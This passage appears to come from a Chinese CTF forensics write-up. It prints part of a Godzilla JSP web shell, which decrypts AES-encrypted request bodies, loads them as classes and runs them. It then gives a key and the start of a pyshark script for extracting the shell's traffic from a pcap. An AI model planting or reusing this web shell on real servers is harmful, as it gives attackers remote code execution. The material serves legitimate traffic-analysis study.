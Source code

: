 ```plain
        try {
            javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
            c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
            return c.doFinal(s);
        } catch (Exception e) {
            return null;
        }
    } %>
<%
    try {
        byte[] data = new byte[Integer.parseInt(request.getHeader("Content-Length"))];
        java.io.InputStream inputStream = request.getInputStream();
        int _num = 0;
        while ((_num += inputStream.read(data, _num, data.length)) < data.length) ;
        data = x(data, false);
        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            f.equals(arrOut);
            f.equals(pageContext);
            f.toString();
            response.getOutputStream().write(x(arrOut.toByteArray(), true));
        }
    } catch (Exception e) {
    }
%>
```

可以看到这是未加密的哥斯拉JSP木马，key是748007e861908c03，那么可以通过解密脚本去解密流量，具体分析请看[这里](https://xz.aliyun.com/t/10556)，这里放一下我自动提取哥斯拉木马的交互流量分析脚本和解密脚本。

```plain
# extract_pcap.py
import pyshark
import pickle

pcap = pyshark.FileCapture(
    "../hard_web.pcap", display_filter="http.request.uri==\"/shell.jsp\" or http.response.code == 200", tshark_path=R"D:\whitehat\tools\Wireshark\tshark.exe")

HTTPchat = {"req": [], "res": []}  # 创建请求和响应的字典


def get_file_data(pkt):  # 获取file_data
    if int(pkt.http.content_length) == 0:  # 检测是否有file_data
        return None
    if int(pkt.http.content_length) != len(pkt.http.file_data):  # 检测file_data内容是否完整
        reassmbledData = pkt.DATA.tcp_reassembled_data.binary_value if (
            "DATA" in pkt) else pkt.TCP.payload.binary_value
        Data = reassmbledData[reassmbledData.find("\r\n\r\n".encode())+4:]
        if int(pkt.http.content_length) == len(Data):  # 这段可以不用加，一般情况下都是完整的
            return Data
    else:
        return pkt.http.file_data.binary_value


for pkt in pcap:
    if int(pkt.number) < 24256:  # 跳到关键请求
        continue
    if pkt.http.chat.split(" ")[0] in ["GET", "POST"]:  # 检测是否是请求
        HTTPchat["req"].append(
```